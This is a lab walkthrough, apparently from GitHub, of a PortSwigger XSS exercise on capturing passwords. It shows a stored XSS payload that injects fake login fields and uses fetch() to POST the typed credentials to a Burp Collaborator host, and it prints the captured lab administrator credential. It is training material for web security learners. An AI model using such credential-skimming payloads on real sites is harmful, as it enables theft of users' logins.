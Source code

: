 ## Welcome, my friend. Today we will start the [29. XSS lab](https://portswigger.net/web-security/cross-site-scripting/exploiting/lab-capturing-passwords) in ```portswigger```
### Let's play this lab:

![image](https://github.com/user-attachments/assets/c36917d4-430f-426c-a65b-deb6fc40b418)

#### First, we navigate inside the browser

![image](https://github.com/user-attachments/assets/3f59fba2-31d2-4ffa-a6c7-76bfdea5b188)

### Let's enter ```<><h1>hi</h1><h5>0xT0R</h5>``` in **Comment**:

![image](https://github.com/user-attachments/assets/26e2260d-3138-404e-9a6e-aa8aaa6d1916)


### Here there html injection, Let's enter malicios code to discover XSS vulnerability:

```
<><img src='x' onerror=alert(404)>
```

![image](https://github.com/user-attachments/assets/5e1685e2-392b-4513-b325-2a982922fb5f)


### But this lab doesn't solved. we will using ```Collaborator``` in burp suite:

```
<input name=username id=username>
<input type=password name=password onchange="if(this.value.length)fetch('https://oyqwzd9hucguqnct18zaheswyn4es8gx.oastify.com',{
method:'POST',
mode: 'no-cors',
body:username.value+':'+this.value
});">
```

![image](https://github.com/user-attachments/assets/f9546d25-dfee-4c70-b55e-a731c5c437cb)

### Inside ```Collaborator``` in burp suite:

![image](https://github.com/user-attachments/assets/d473e7ad-148e-48a6-9e4a-97104b4e40de)

### Copy this crediental of administrator and login:

```
administrator:hsxvhzp549ddtybg3y30
```

![image](https://github.com/user-attachments/assets/884c1595-bb8e-4e85-85f8-750f52b3ae6c)

![image](https://github.com/user-attachments/assets/2a804c0c-c7a8-4bb0-a734-ac980c4be948)

------

### Done! Congratulations, friends❤️‍🔥


<p align="center">
<img src="https://github.com/user-attachments/assets/75fa757a-1392-4970-bc73-f81b54d7c409" >
</p>
